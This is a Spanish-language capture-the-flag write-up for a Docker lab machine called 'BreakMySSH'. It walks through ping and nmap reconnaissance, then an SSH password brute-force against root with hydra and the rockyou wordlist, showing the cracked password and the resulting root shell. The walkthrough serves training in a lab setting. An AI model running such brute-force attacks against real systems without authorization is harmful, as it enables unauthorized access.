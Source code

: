 # BreakMySSH

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Como tenemos abierto el puerto 22, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22`: Escaneo de los puertos 22 (SSH).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfOr49bj2kh3ab2WutTu6Jx7NA7OKSxzp42bJU4nqtQlICZbjiBXhOa1ZKOfUfNvXOGEThiSrTNbf1nRGzXtACiZQp+RwQr5ZEYPAOyasC7C29FaIZVURR7FuFea+tfWZjbzDaP8WnA/U3TQHwtUBsNSR3qFscgJQ1niCyrfH/4rbUk5jiLYN6y8NjctGvsvwPE+cCiFVge76qyfzmZdaf5gJT9DKDt47iBkrngCODYrqqt+Bbl9ZEGh5SUfDqYfsFMIvlsSjmbx0HtMc2NhTW7jLtyV3Xm6ynFUZmQRPRqXdzuN5TIhYzaQD8ogC1Hk9sYJJNUMMF+lGVf15iouMn
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLJ77V//dhC1BX2KXpMNurk9hJPA3aukuoMLPajtYfaewmlwrsK5Rdss/I/iQ23YrziNvWb3VMJk511YbvvreZo=
|   256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICFLUqv+frul58FgQLXP91bNrTRC9d1X545DZJ0wsw6z
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Al tener una versión de ssh que no permite la enumeración de usuarios y únicamente tenemos el puerto 22 abierto, vamos a probar con hydra y fuerza bruta si podemos obtener el password de root.

## Explotación.

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
- `-l root`: Especifica el nombre de usuario "root" para el intento de inicio de sesión.
- `-P /usr/share/wordlists/rockyou.txt`: Especifica la ubicación del archivo de contraseñas a utilizar. En este caso, se utiliza el archivo "rockyou.txt" como lista de contraseñas.
- `ssh://172.17.0.2`: Indica el protocolo a utilizar (`ssh`) y la dirección IP del host objetivo (`172.17.0.2`). Esto establece el destino del intento de inicio de sesión mediante SSH.

```bash
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-16 15:29:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-16 15:29:49
```
Con hydra encontramos el password para el usuario root y nos conectamos por ssh a la máquina.

```bash
ssh root@172.17.0.2
```
Probamos a conectarnos con la contraseña obtenida y tenemos acceso a la máquina como root.
```bash
root@74dc51463f0e:~# whoami
root
root@74dc51463f0e:~# 
```
